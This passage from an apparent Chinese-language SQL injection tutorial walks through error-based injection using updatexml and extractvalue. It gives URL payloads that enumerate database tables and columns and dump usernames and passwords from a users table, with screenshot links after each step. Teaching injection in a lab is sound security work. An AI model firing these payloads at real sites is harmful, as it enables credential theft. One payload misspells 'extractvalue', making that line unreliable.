 ```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+
```

![image-20250605113539388](https://image.3001.net/images/20250718/1752822065_6879f1316c3f52e7c57c2.png!small)

- 字段名称

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)--+
```

![image-20250605113555385](https://image.3001.net/images/20250718/1752822069_6879f13583a344dc64380.png!small)

- 用户名

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1)--+
```

![image-20250605113614242](https://image.3001.net/images/20250718/1752822073_6879f13980de5b129152e.png!small)

- 密码

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)--+
```

![image-20250605113701716](https://image.3001.net/images/20250718/1752822075_6879f13b9cbe0f13b63fc.png!small)

#### 2.extractvalue报错

- 数据库名称

```
?id=1' and extractvalue(1,concat(0x23,database(),0x23))--+
```

![image-20250605110858348](https://image.3001.net/images/20250718/1752822077_6879f13d187d53fb34304.png!small)

- 数据表名称

```
?id=1' and extractvalue(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23))--+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915597.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915597.png)

- 查看users表，列名

```
?id=1' and extaractvalue(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x23))--+
```

![image-20250605113539388](https://image.3001.net/images/20250718/1752822065_6879f1316c3f52e7c57c2.png!small)
